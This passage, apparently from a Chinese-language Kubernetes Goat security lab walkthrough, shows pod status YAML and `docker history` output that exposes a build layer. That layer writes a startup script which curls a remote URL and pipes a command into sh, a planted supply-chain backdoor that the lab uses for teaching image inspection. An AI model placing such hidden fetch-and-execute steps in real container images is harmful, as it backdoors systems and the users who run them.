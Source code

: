 ```
    ready: false
    restartCount: 0
    started: false
    state:
      terminated:
        containerID: docker://d82f62ef538eccab1b687360a459bc5d59fd3eff4b62bee614b12642834c2ff4
        exitCode: 0
        finishedAt: "2023-01-30T09:41:55Z"
        reason: Completed
        startedAt: "2023-01-30T09:41:55Z"
  hostIP: 192.168.32.130
  phase: Succeeded
  podIP: 172.17.0.4
  podIPs:
  - ip: 172.17.0.4
  qosClass: BestEffort
  startTime: "2023-01-30T09:41:18Z"
```

在这里我们可以看到它包含一个在构建时在其中一层中执行外部脚本的命令

```
root@l-virtual-machine:~# docker history --no-trunc madhuakula/k8s-goat-batch-check
IMAGE                                                                     CREATED         CREATED BY                                                                                                                                                                                                                                                                                 SIZE      COMMENT
sha256:cb43bcb572b74468336c6854282c538e9ac7f2efc294aa3e49ce34fab7a275c7   8 months ago    CMD ["ps" "auxx"]                                                                                                                                                                                                                                                                          0B        buildkit.dockerfile.v0
<missing>                                                                 8 months ago    RUN /bin/sh -c apk add --no-cache htop curl ca-certificates    && echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup     && chmod +x /usr/bin/system-startup     && rm -rf /tmp/* # buildkit   2.96MB    buildkit.dockerfile.v0
<missing>                                                                 8 months ago    LABEL MAINTAINER=Madhu Akula INFO=Kubernetes Goat                                                                                                                                                                                                                                          0B        buildkit.dockerfile.v0
<missing>                                                                 10 months ago   /bin/sh -c #(nop)  CMD ["/bin/sh"]                                                                                                                                                                                                                                                         0B        
<missing>                                                                 10 months ago   /bin/sh -c #(nop) ADD file:5d673d25da3a14ce1f6cf66e4c7fd4f4b85a3759a9d93efb3fd9ff852b5b56e4 in /                                                                                                                                                                                           5.57MB    
```
